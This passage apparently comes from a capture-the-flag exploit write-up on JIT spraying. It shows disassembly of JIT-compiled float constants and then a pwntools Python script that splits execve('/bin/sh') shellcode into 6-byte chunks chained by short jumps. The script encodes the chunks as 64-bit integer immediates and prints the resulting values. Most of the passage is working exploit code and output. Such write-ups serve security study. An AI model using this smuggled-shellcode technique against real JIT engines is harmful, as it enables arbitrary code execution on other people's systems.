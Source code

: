 ```
   0x55cdc00040c5:	vmovq  xmm0,r10
   0x55cdc00040ca:	vmovsd QWORD PTR [rcx+0xf],xmm0
   0x55cdc00040cf:	movabs r10,0x400a666666666666
   0x55cdc00040d9:	vmovq  xmm0,r10
   0x55cdc00040de:	vmovsd QWORD PTR [rcx+0x17],xmm0
   0x55cdc00040e3:	movabs r10,0x401199999999999a
...
```

Here's a little python script that will help us generate an `execve("/bin/sh", 0, 0)` shellcode. Take particular note of the `jmp 0xe` instruction appended to each chunk of shellcode. This will chain each section of shellcode to the next.
```py
#!/usr/bin/env python3

from pwn import *

context.arch = 'amd64'


def convert(x):
    print(len(x))
    jmp = b'\xeb\x0c' # jmp 0xe
    return u64(x.ljust(6, b'\x90') + jmp)


imm = [
    asm('push SYS_execve; pop rax'),
    asm('push 0x0068732f; pop rbx'), # "/sh\0"
    asm('push 0x6e69622f; pop rcx'), # "/bin"
    asm('shl rbx, 0x20'),
    asm('add rbx, rcx; push rbx'),
    asm('mov rdi, rsp'),
    asm('xor rsi, rsi; xor rdx, rdx'),
    asm('syscall')
]

imm = [convert(x) for x in imm]
log.info(f'{imm}')

"""
[
    930996698553531242,
    930937805292646248,
    930936078731456360,
    930996696683626824,
    930996697537642824,
    930996698562922824,
    931068857101463880,
    930996698557187343
]
"""
```
